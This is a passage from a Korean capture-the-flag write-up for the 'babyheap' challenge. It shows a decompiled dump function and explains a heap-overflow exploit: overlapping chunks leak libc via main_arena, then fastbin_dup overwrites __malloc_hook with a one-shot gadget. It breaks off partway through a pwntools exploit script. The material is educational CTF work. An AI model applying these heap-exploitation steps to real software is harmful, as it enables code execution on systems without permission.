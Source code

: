 ### 4. Dump
```c
signed int __fastcall sub_1051(__int64 a1)
{
  signed int result; // eax
  signed int v2; // [rsp+1Ch] [rbp-4h]
 
  printf("Index: ");
  result = sub_138C();
  v2 = result;
  if ( result >= 0 && result <= 15 )
  {
    result = *(24LL * result + a1);
    if ( result == 1 )
    {
      puts("Content: ");
      sub_130F(*(24LL * v2 + a1 + 16), *(24LL * v2 + a1 + 8));
      result = puts(byte_14F1);
    }
  }
  return result;
}
```
chunk가 free 상태가 아닌 경우 user_data를 출력합니다. main_arena+88를 바로 leak하는 것은 불가능합니다.
* * *
## Exploit

우선 눈여겨보아할 것은 fill에서 size 검사가 제대로 이루어지지 않아 heap overflow가 발생한다는 것인데, 이를 이용해 다른 chunk들의

size나 fd, bk 값을 조작할 수 있는 것에서 exploit이 시작됩니다.



small bin 크기의 chunk를 2개 이상 할당하고 이를 free하면 unsorted bin에 들어가고, 이때 fd와 bk가 main_arena+88를 가르킵니다.

그런데 heap overflow로 fd를 조작할 수 있다는 상황에서 ,

만약 fastbin 크기의 chunk를 free하고, fd를 조작해 smallbin 크기의 chunk 위에 다시 calloc한다면 (chunk가 겹치는 상황)

smallbin을 free한 상태에서 main_arena+88을 dump로 leak하는 것이 가능해집니다.

![heap](https://t1.daumcdn.net/cfile/tistory/99AC4F365BC73C7532)

<center><h6>leak이 가능해진 상황의 heap 상황</h6></center>

이후 leak한 libc base를 바탕으로 \_\_malloc_hook 근처 fastbin 크기 내 범위에 fastbin_dup_into_stack을 이용해 fake chunk를 할당한다면

\_\_malloc_hook을 oneshot gadget(magic gadget)으로 덮는 것이 가능해집니다. 그 이후 alloc을 한다면 oneshot gadget이 트리거됩니다.

exp.py
```python
from pwn import *
 
p = process('./babyheap')
 
oneshot = 0x4526a
arena = 0x3c4b78
malloc_hook = 0x3c4b10
 
def alloc(size):
    p.recvuntil('Command: ')
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))
 
def fill(idx, payload):
```
